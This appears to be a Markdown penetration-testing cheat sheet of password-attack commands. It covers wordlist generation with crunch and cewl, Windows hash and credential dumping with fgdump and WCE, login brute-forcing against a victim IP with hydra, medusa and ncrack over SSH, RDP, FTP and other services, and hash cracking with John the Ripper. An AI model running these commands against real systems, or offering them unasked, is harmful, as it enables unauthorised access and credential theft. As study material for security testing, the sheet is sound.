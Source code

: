 - [Password_generator](#Password_generator)
  - [Crunch](#Crunch)
 -[Windows](#Windows)
  - [pwdump](#pwdump)
  - [WCE](#WCE)
 -[Password_cracking](#Cracking)
  - [HTTP](#HTTP)
  - [RDP](#RDP)
  - [SNMP](#SNMP)
  - [SSH](#SSH)
  - [FTP](#FTP)
  - [POP3](#POP3)
 -[Password Hash](#Hash)
  - [MD5](#MD5)
 
## Password generator
### Crunch: 
  - is a wordlist generator where you can specify a standard character set or a character set you specify.

##### crunch 6 6 1234567890ABCDE -o <file.txt>
  - ***6*** min length
  - ***6*** max length
  - ***1234567890ABCDE*** charset
  - ***o*** seve result in file
 
##### crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha
  - ***f*** dictionary path
  
##### special chars
  - @ lower case alpha char
  - , upper case alpha char
  - % numeric charset
  - ^ special char include space
------------------------------------------------------------------------------------------------------------------------
### Windows  

#### pwdump fgdump
MS Windows store hased user password in the ***Security account manager (SAM)***
pwdump and fgdump inject a DLL containning the hash dumping code into the ***Local Security Authority Subsystem (LSASS)***

***- c:\> fgdump.exe ***
***- c:\> type 127.0.0.1.pwdump ***

### WCE
- WCE can steal NTLM credentails from memory and dump clear text password
***- c:\> WCE -w ***
------------------------------------------------------------------------------------------------------------------------

### Password Profiling

#### cewl
- cewl <victim_www_url> -d [num] -m [num] -w [file.txt]
------------------------------------------------------------------------------------------------------------------------  
  
### Cracking

#### HTTP
- medusa -h [url] -u [user_name] -p [password_file.txt] -M http

#### RDP B
- ncrack -vv --user [user_name] -P [password_file.txt] rdp://[victim_ip]

#### SNMP 
- hydra -P [password-file.txt] -v [victim_ip] snmp

#### SSH 
- hydra -l [user_name] -P [password_file.txt] [victim_ip] ssh

#### FTP 
- hyrda -L [user_file] -p [password] [victim_ip] ftp

#### POP3 
- hyrda -L [user_file] -P [password_file.txt] [victim_ip] -s [victim_port] -t 50 -I pop3

##### Usefull flag
- -vV : verbose mode
- -e nsr : login as password or login as password in reversed order etc
- -t : threads
------------------------------------------------------------------------------------------------------------------------

### Hash 

#### Hash identifier
 - usage: hash-identifier
 
#### MD5
- john --format=raw-md5 --wordlist=rockyou.txt [hash.file]

#### SHA1
- john --format=raw-sha1 --wordlist=rockyou.txt [hash.file]

#### SHA224
- john --format=raw-sha224 --wordlist=rockyou.txt [hash.file]

#### SHA512
- john --format=raw-sha512 --wordlist=rockyou.txt [hash.file]
------------------------------------------------------------------------------------------------------------------------

### Pass the hash

# //TODO!

